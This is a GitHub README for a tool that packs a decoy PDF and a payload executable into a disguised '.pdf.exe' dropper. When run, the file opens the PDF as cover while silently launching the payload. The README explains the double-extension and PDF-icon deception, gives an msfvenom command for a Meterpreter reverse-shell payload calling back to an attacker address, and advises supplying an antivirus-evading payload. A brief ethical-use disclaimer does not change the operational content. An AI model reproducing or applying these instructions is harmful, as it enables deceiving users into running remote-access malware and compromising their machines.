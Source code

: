 # 📦 PDF-EXE SFX Builder

A cross-platform Python tool to bundle a **decoy PDF** and a **payload EXE** into a single `.pdf.exe` Windows executable using NSIS (Nullsoft Scriptable Install System). On execution, the final file silently drops both files into the temporary directory and runs them — showing the PDF while triggering the EXE.

---

## 🚀 Features

* Automatically binds a PDF and EXE into one executable.
* Uses `.pdf.exe` **double extension** for deception.
* Works on **Windows and Linux**.
* Embeds a **PDF icon** to appear trustworthy.
* Creates **silent installers** using NSIS.
* **Customizable icon** — just replace `pdf_icon.ico` in the repo with your own `.ico` file.

---

## 🎭 How Deception Works

### 🧠 Double Extension Tactic (`filename.pdf.exe`)

On most systems:

* The default setting hides known extensions.
* A file named `document.pdf.exe` appears as `document.pdf` to the user.
* The icon shows a PDF symbol — making it more believable.

🛑 **This is a common social engineering trick used by attackers**, so ensure your use is ethical and educational.

---

## 💡 Example Use Case: Meterpreter or PowerShell Payload

### 1. Generate Payload with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=YOUR_IP LPORT=4444 -f exe > payload.exe
```

### 2. Or Convert PowerShell Script to EXE

Use tools like:

* [ps2exe](https://github.com/MScholtes/PS2EXE)
* IExpress

Then use that `.exe` with this builder.

---

## 🛠️ Prerequisites

### ✅ For Windows:

* Python 3.x
* `nsis/makensis.exe` must be present in the project (portable NSIS included)

### ✅ For Linux:

```bash
sudo apt update
sudo apt install nsis python3
```

Make sure `makensis` is available at `/usr/bin/makensis`

---

## 📂 Project Structure

```
pdf-exe-sfx-builder/
├── nsis/
│   └── makensis.exe        # (Windows only)
├── pdf_icon.ico            # PDF icon for deception (can be replaced to change output icon)
├── pdf_installer.py        # Main script
└── README.md
```

---

## ⚙️ Usage

```bash
python pdf_installer.py <path_to_pdf> <path_to_exe> <output_name>
```

### Example:

```bash
python pdf_installer.py report.pdf payload.exe final_output
```

📦 This generates: `final_output.pdf.exe`

---

## 🧰 What Happens Internally

1. A temp directory is created.
2. PDF and EXE are copied there.
3. An `.nsi` script is generated.
4. NSIS bundles them into a final silent installer.
5. That installer, when run:

   * Extracts both files to `%TEMP%`
   * Opens the PDF (for cover)
   * Executes the payload EXE (in background)

---

## ⚠️ Antivirus Evasion Notice

This tool **does not make your payload FUD (Fully Undetectable)** by default.

* Meterpreter `.exe` or standard PowerShell-based payloads generated via tools like `msfvenom` or `ps2exe` are typically flagged by antivirus software.
* To avoid detection, you must use a custom or obfuscated payload that is already FUD.
* This builder only packages and disguises your existing EXE; it does not modify or encrypt its behavior.

Use with caution, and always test in a safe, isolated environment.

---

## 🔐 Disclaimer

This tool is created **for educational and ethical penetration testing** purposes only.

> Never use this tool to target devices or individuals without proper authorization. The misuse of this software can lead to serious legal consequences.

---

## 🤝 Credits

Developed by **RITVIJ GAUR** aka *superflex*, part of the **HackingFlix** community.

Pull requests welcome. Star the repo if you find it useful! ⭐
